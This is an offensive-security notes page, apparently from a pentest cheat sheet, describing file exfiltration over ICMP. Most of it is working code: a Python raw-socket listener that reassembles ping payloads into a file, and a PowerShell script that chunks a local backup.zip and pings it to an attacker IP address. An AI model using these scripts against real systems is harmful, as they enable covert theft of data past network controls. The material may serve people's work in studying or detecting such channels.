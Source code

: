 # ICMP

## Extracting a File

By sending ping packets from our server, with the start marked by `^BOF` and the end marked by `EOF` , we can set up an icmplistener as below which decodes the data packets and then writes them to our file.  This isn't as universal as metasploit's listener, but it servers as a quick and dirty poc if all you're looking to extract is a single file.

```py
import socket

def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

A good option for recent Windows based systems is a modified [Powershell-ICMP-Sender](https://github.com/api0cradle/Powershell-ICMP).

```powershell
    $IPAddress = "10.10.15.39"
    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $true
    #$PingOptions.Ttl = 10
    
    # Must be divided into 1472 chunks
    [int]$bufSize = 1472
    $inFile = "C:\Users\bob\Desktop\backup.zip"
    

    $stream = [System.IO.File]::OpenRead($inFile)
    $chunkNum = 0
    $TotalChunks = [math]::floor($stream.Length / 1472)
    $barr = New-Object byte[] $bufSize
    
    # Start of Transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^BOFbackup.zip")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null


    while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
        $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
        $ICMPClient.PingCompleted
        
        #Missing check if transfer is okay, added sleep.
        sleep 2
        #$ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
        Write-Output "Done with $chunkNum out of $TotalChunks"
        $chunkNum += 1
    }

    # End the transfer
    $sendbytes = ([text.encoding]::ASCII).GetBytes("^EOF")
    $ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
    Write-Output "File Transfered"
```



